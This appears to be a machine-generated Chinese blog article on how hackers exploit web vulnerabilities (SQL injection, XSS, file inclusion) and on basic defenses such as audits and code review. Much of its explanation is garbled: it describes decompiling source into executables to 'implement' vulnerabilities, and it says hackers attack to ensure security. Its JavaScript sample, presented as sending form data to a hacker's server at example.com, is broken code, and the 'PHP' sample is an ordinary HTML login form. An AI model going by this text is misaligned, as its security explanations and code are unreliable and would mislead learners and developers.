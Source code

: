
[toc]                    
                
                
78. "黑客常用的Web漏洞利用技巧及防御方法"

随着网络安全威胁的不断增加，Web安全问题也变得越来越严峻。黑客利用Web漏洞进行攻击是一种常见的攻击手段。本文将介绍一些黑客常用的Web漏洞利用技巧及防御方法。

## 1. 引言

随着网络的普及和数字化进程的加速，Web安全问题也越来越受到人们的关注。黑客利用Web漏洞进行攻击是一种常见的攻击手段，攻击者可以通过利用Web漏洞获取到系统的访问权限，窃取敏感信息，甚至篡改系统数据。因此，掌握Web漏洞利用技巧和防御方法对于保障系统安全至关重要。

## 2. 技术原理及概念

Web漏洞是指Web应用程序中的漏洞，黑客可以通过利用这些漏洞来获得系统的访问权限。Web漏洞包括常见的SQL注入漏洞、XSS跨站脚本攻击漏洞、文件包含漏洞等。

黑客常用的Web漏洞利用技巧包括：

### 2.1. SQL注入漏洞利用技巧

SQL注入漏洞是指攻击者通过在Web应用程序中注入SQL语句的方式，获取到系统的访问权限和敏感信息。黑客可以使用各种攻击技术，如文本替换、SQL语句注入等，来绕过Web应用程序的验证，获取到系统的访问权限和敏感信息。

### 2.2. XSS跨站脚本攻击漏洞利用技巧

XSS跨站脚本攻击漏洞是指攻击者通过在Web应用程序中包含跨站脚本攻击代码的方式，窃取到系统的访问权限和敏感信息。黑客可以使用各种攻击技术，如HTML注入等，来绕过Web应用程序的验证，获取到系统的访问权限和敏感信息。

### 2.3. 文件包含漏洞利用技巧

文件包含漏洞是指攻击者通过在Web应用程序中包含敏感文件或代码的方式，窃取到系统的访问权限和敏感信息。黑客可以使用各种攻击技术，如文件包含、二进制文件注入等，来绕过Web应用程序的验证，获取到系统的访问权限和敏感信息。

## 3. 实现步骤与流程

黑客常用的Web漏洞利用技巧及防御方法如下：

### 3.1. 准备工作：环境配置与依赖安装

在准备攻击之前，黑客需要通过各种途径，如命令行、Web应用程序漏洞扫描器等，来获取到Web应用程序的IP地址和端口号。然后，黑客需要使用各种工具，如社会工程学攻击工具、漏洞扫描器等，来识别Web应用程序中的SQL注入、XSS跨站脚本攻击、文件包含漏洞等漏洞。

### 3.2. 核心模块实现

一旦识别到Web应用程序中的漏洞，黑客需要将这些漏洞的核心模块实现出来。通常，黑客会使用各种工具，如反编译工具、反汇编工具等，来将Web应用程序的源代码转换成可执行文件。然后，黑客需要将这些可执行文件部署到Web服务器上，以便进行攻击。

### 3.3. 集成与测试

一旦黑客完成了漏洞模块的实现，他们需要将这些模块集成到Web应用程序中，并对其进行测试。通常，黑客会使用各种测试工具，如Web应用程序漏洞扫描器、测试框架等，来测试Web应用程序的安全性。

## 4. 应用示例与代码实现讲解

### 4.1. 应用场景介绍

下面是一个Web应用程序的应用场景示例。这个Web应用程序使用了HTML注入漏洞，允许黑客在HTML文件中包含敏感信息。

假设黑客在Web应用程序的HTML文件中，将一个包含敏感信息的表单嵌入到HTML文件中，并使用JavaScript来获取该表单的值。然后，黑客可以利用该值，对Web应用程序进行攻击。

### 4.2. 应用实例分析

下面是一个使用HTML注入漏洞攻击的示例代码。这个示例代码使用了JavaScript代码，将一个包含敏感信息的表单的值，发送到黑客指定的服务器。

```javascript
// 获取表单的值
var formdata = new Date().getTime();
var formData = new FormData(window.location.href);
formData.append('username', formdata);

// 发送表单的值
var email = '黑客@example.com';
var password = '123456';
var sendData = {username: formdata, password: password};

// 发送表单的值到黑客指定的服务器
var dataUrl = 'http://example.com/login.php?username=' + encodeURIComponent(email) + '&password=' + encodeURIComponent(password);
window.location.href = dataUrl;
```

### 4.3. 核心代码实现

下面是一个使用HTML注入漏洞攻击的示例代码：

```php
<!DOCTYPE html>
<html>
<head>
	<title>示例代码</title>
</head>
<body>
	<form action="http://example.com/login.php" method="post">
		<label for="username">用户名：</label>
		<input type="text" id="username" name="username"><br><br>
		<label for="password">密码：</label>
		<input type="password" id="password" name="password"><br><br>
		<input type="submit" value="登录">
	</form>
</body>
</html>
```

### 4.4. 代码讲解说明

在上面的示例代码中，黑客在HTML文件中，将一个包含敏感信息的表单的值，发送到黑客指定的服务器。这个攻击技术称为HTML注入攻击。攻击者可以使用各种技术，如JavaScript代码、表单提交等，来绕过Web应用程序的验证，获取到系统的访问权限和敏感信息。

## 5. 优化与改进

针对Web应用程序的漏洞，黑客可以采用各种攻击技术，来绕过Web应用程序的验证，获取到系统的访问权限和敏感信息。因此，为了保障系统的安全性，黑客会使用各种技术，如HTML注入攻击、SQL注入攻击等，来攻击Web应用程序。

为了应对这些攻击技术，Web应用程序管理员可以采取以下优化和改进措施：

### 5.1. 安全审计

安全审计是Web应用程序管理员对Web应用程序进行安全性评估的过程，其中包括对Web应用程序中漏洞的扫描和识别。安全审计可以帮助Web应用程序管理员发现并修复漏洞，以提高系统的安全性。

### 5.2. 代码审查

代码审查是Web应用程序管理员对Web应用程序代码进行审查和审核的过程。代码审查可以帮助Web应用程序管理员发现和修复漏洞，并确保Web应用程序代码的质量和安全性。

### 5.3. 安全性评估

安全性评估是Web应用程序管理员对Web应用程序进行安全性评估的过程，其中包括对系统的安全性进行测试和评估。安全性评估可以帮助Web应用程序管理员发现并修复漏洞，以保障系统的安全性。

## 6. 结论与展望

通过本文的介绍，我们可知黑客常用的Web漏洞利用技巧及防御方法，包括SQL注入、XSS跨站脚本攻击、文件包含漏洞等。在Web应用程序开发过程中，我们应该尽可能地避免这些漏洞的发生，并对漏洞进行及时的处理和修复。

